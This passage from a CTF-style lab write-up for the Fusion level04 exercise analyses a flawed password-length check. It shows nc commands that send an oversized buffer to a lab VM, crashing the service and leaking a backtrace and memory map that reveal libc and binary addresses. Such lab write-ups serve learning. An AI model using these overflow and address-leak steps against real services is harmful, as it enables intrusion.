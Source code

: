 Via the check `if(l < password_size || bytes_wrong)` on line 212, it
checks if the variable `l` (used to iterate through our submitted
credentials) is smaller than password_size (which indicates that the
submitted passwords length does not match the generated password) - if
that is indeed the case, or `bytes_wrong` is not zero; the function
errors out via `se nd_error` - which is not what we want.

This means that our submitted credentials are still treated as valid,
if the credentials we submit are bigger than `sizeof(details)`, as
long as the submission actually contains the correct password.

Using the small wrapper program which handles things like base64
encoding, I was able to at least produce a error-message :)

~~~
$ python2 -c "print 'A'*2048" | ./level04_exploit $PASSWORD | nc 192.168.14.33 20004
*** stack smashing detected ***: /opt/fusion/bin/level04 terminated
~~~

As you can see, no sigsegv - because the program was gracefully
aborted via the SSP when it detected that the stack had been
corrupted.

A strange thing that happened is that I get back a bigger response
when I tried this exploit back home (I usually sit in my classroom
while writing these things)

~~~
python2 -c "print 'a'*2048" | ./level04_exploit $PASS | nc 192.168.1.6 20004
*** stack smashing detected ***: /opt/fusion/bin/level04 terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x45)[0xb77e08d5]
/lib/i386-linux-gnu/libc.so.6(+0xe7887)[0xb77e0887]
/opt/fusion/bin/level04(+0x2dd1)[0xb78a4dd1]
/opt/fusion/bin/level04(+0x22c7)[0xb78a42c7]
/opt/fusion/bin/level04(+0x24c0)[0xb78a44c0]
/opt/fusion/bin/level04(main+0x390)[0xb78a34d0]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0xb7712113]
/opt/fusion/bin/level04(+0x170d)[0xb78a370d]
======= Memory map: ========
b76da000-b76f6000 r-xp 00000000 07:00 92670      /lib/i386-linux-gnu/libgcc_s.so.1
b76f6000-b76f7000 r--p 0001b000 07:00 92670      /lib/i386-linux-gnu/libgcc_s.so.1
b76f7000-b76f8000 rw-p 0001c000 07:00 92670      /lib/i386-linux-gnu/libgcc_s.so.1
b76f8000-b76f9000 rw-p 00000000 00:00 0 
b76f9000-b786f000 r-xp 00000000 07:00 92669      /lib/i386-linux-gnu/libc-2.13.so
b786f000-b7871000 r--p 00176000 07:00 92669      /lib/i386-linux-gnu/libc-2.13.so
b7871000-b7872000 rw-p 00178000 07:00 92669      /lib/i386-linux-gnu/libc-2.13.so
b7872000-b7875000 rw-p 00000000 00:00 0 
b787f000-b7881000 rw-p 00000000 00:00 0 
b7881000-b7882000 r-xp 00000000 00:00 0          [vdso]
b7882000-b78a0000 r-xp 00000000 07:00 92553      /lib/i386-linux-gnu/ld-2.13.so
b78a0000-b78a1000 r--p 0001d000 07:00 92553      /lib/i386-linux-gnu/ld-2.13.so
b78a1000-b78a2000 rw-p 0001e000 07:00 92553      /lib/i386-linux-gnu/ld-2.13.so
b78a2000-b78a6000 r-xp 00000000 07:00 75281      /opt/fusion/bin/level04
b78a6000-b78a7000 rw-p 00004000 07:00 75281      /opt/fusion/bin/level04
b838a000-b83ab000 rw-p 00000000 00:00 0          [heap]
bf988000-bf9a9000 rw-p 00000000 00:00 0          [stack]
~~~

